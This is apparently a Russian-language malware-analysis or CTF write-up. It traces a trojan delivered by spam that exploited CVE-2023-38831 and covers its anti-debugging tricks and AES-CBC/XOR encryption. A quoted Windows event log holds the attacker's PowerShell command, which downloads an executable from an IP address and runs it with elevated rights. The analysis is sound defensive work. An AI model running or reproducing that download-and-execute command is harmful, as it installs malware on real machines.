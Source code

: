 # 1 Как ВПО попало на компьютер?
Через спам рассылку на почту

# 2 С какого сервера?
Посмотрев события винды видим откуда был скачан файл:

ip: http://95.169.192.220:8080
Logfile:

```
file:///C:/Users/Evgeniy/AppData/Local/Temp/Rar$DIa2900.6159/TOP_SECRET.pdf
Trojan:Win32/Znyonm
Поставщик "Registry" находится в состоянии Started. 

Подробные сведения: 
	ProviderName=Registry
	NewProviderState=Started

	SequenceNumber=1

	HostName=ConsoleHost
	HostVersion=5.1.19041.906
	HostId=9da22629-af52-4b50-a1e3-c0b8ad39c1a1
	HostApplication=powershell -command ($drop=Join-Path -Path $env:APPDATA -ChildPath Rjomba.exe);(New-Object System.Net.WebClient).DownloadFile('http://95.169.192.220:8080/prikol.exe', $drop); Start-Process -Verb runAs $drop
	EngineVersion=
	RunspaceId=
	PipelineId=
	CommandName=
	CommandType=
	ScriptName=
	CommandPath=
	CommandLine=
```
3. С помощью какой уязвимости данное ВПО запустилось? В каком ПО?

Уязвимость: CVE-2023-38831, [https://habr.com/ru/articles/797127/](https://habr.com/ru/articles/797127/)

# 4 Какие методы противодействия отладке использует программа? 

При исполнении программы вызываются прерывания int 3 которые без откладчика вызовут EXCEPTION_BREAKPOINT и будут переданы обработчику исключений, а при присутствии исключение не будет передано обработчику \
isDebuggerPresent() возвращает true, если программа в деабггере и false, если нет

# Какой алгоритм шифрования используется при шифровании данных? Стоимость: 10
Использеутся библиотека crypto++ - в зависимостях она видна при дизассембле \
Вирус написан на визуал с++ \
Используется шифр 256 битный AES в режиме CBC - есть функция CBC в crypto++ \
Испольуется base64 - видно по файлам \
Используется XOR \
Генерация рандомных чисел
